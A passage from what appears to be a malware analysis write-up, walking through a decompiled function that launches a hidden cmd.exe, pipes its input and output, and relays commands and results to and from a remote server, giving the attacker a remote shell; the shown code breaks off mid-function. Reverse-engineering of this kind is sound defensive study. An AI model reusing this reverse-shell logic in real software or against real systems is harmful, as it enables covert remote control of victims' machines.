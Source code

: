 `FUN_100015d4` is quite a large function, but actually not that difficult to understand once you filter most of the boilerplate code. Essentially it starts up a hidden instance of `cmd.exe` and feeds any message that is sent by the server to the standard input of this process (making `cmd.exe` execute it as if it were a batch command), and sending the output back to the server. This basically means that the malware provided the server with a remote shell, allowing the attacker to run any command that it likes:

```c
void FUN_100015d4(void)
{
    /* ... */ 
    memset(&startupInfo.lpReserved,0,0x40);
    startupInfo.cb = 0x44;

    // Create two named pipes.
    pipe_attr.nLength = 0xc;
    processInfo = ZEXT816(0);
    pipe_attr.lpSecurityDescriptor = NULL;
    pipe_attr.bInheritHandle = 1;
    BVar3 = CreatePipe(&read_pipe1,&write_pipe1,&pipe_attr,0);
    if ((BVar3 != 0) && (BVar3 = CreatePipe(&read_pipe2,&write_pipe2,&pipe_attr,0), BVar3 != 0)) {

        // Start CMD.exe using a hidden window, and use the previously created pipes as standard input/output streams.
        GetStartupInfoA(&startupInfo);
        startupInfo.dwFlags = 0x101;
        startupInfo.wShowWindow = 0;
        startupInfo.hStdOutput = write_pipe2;
        startupInfo.hStdError = write_pipe2;
        startupInfo.hStdInput = read_pipe1;
        BVar3 = CreateProcessA(NULL,"C:\\wiNdOwS\\sYstEm32\\cMd.ExE",NULL,NULL,1,0,NULL,NULL,&startupInfo,&processInfo);

        if (BVar3 != 0) {
LAB_10001796:
            send_length = 0;
            Sleep(500);

            // Are we still alive?
            BVar3 = GetExitCodeProcess(processInfo.hProcess,&exitCode);
            if ((BVar3 != 0) && (exitCode != STILL_ACTIVE)) goto LAB_1000195e;

            // Read any of the output of CMD.exe, and send it to the server.
            memset(send_buffer,0,0xffff);
            PeekNamedPipe(read_pipe2,NULL,0,NULL,&DStack65552,NULL);
            if (DStack65552 != 0) {
                do {
                    ReadFile(read_pipe2,send_buffer + send_length,DStack65552,&DStack65560,NULL);
                    send_length += DStack65560;
                    Sleep(100);
                    PeekNamedPipe(read_pipe2,NULL,0,NULL,&DStack65552,NULL);
                } while (DStack65552 != 0);
                iVar4 = send_message(socket,send_buffer,send_length);
                if (iVar4 == 1) goto LAB_1000195e;
            }

            // Receive the next message from the server. 
            iVar4 = receive_message(socket,&receive_buffer,&receive_length);
            lpMem = receive_buffer;
            if (iVar4 == 1) goto LAB_1000195e;

            /* ... */

            // Write the received message into the stdin of cmd.exe
```